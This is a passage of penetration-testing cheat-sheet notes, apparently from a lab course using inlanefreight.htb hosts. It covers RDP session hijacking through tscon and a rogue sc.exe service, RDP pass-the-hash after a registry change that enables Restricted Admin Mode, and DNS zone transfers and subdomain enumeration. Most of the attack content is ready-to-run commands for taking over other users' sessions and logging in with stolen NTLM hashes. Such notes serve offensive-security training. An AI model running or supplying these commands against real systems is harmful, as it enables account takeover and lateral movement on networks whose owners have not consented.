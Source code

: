 * RDP session hijacking:

  ```cmd
  # after getting access as a user with admin privileges
  query user

  # we can check if any other users are logged in as RDP
  # and can takeover their sessions

  # we can use tscon.exe and our SYSTEM privileges
  tscon 4 /dest:rdp-tcp#13
  # where 4 is the victim session ID
  # and rdp-tcp#13 is our current session name

  # we can also create a Windows service that does the same
  sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

  net start sessionhijack
  # after this, we get a new terminal with the victim user session
  ```

* RDP PtH:

  ```sh
  # this needs 'Restricted Admin Mode' setting to be enabled on target
  # adding the registry key first
  reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f

  # then we can do PtH using xfreerdp
  xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9
  ```

## DNS

* Attacking DNS:

  ```sh
  # enumeration
  nmap -p53 -Pn -sV -sC 10.10.110.213

  # DNS zone transfer
  dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
  # check for domain names

  # we can also use tools like fierce to enumerate
  fierce --domain zonetransfer.me

  # subdomain enumeration
  ./subfinder -d inlanefreight.com -v

  # as an alternative, we can use subbrute
  git clone https://github.com/TheRook/subbrute.git >> /dev/null 2>&1
  cd subbrute
  echo "ns1.inlanefreight.com" > ./resolvers.txt
  ./subbrute inlanefreight.com -s ./names.txt -r ./resolvers.txt
  # we can use custom name servers here

  # from the subdomains found, we can enumerate further
  # using nslookup or host
  host support.inlanefreight.com
  # this can give us more subdomains

  # if there are any unused subdomains, we can perform a subdomain takeover as well
  ```

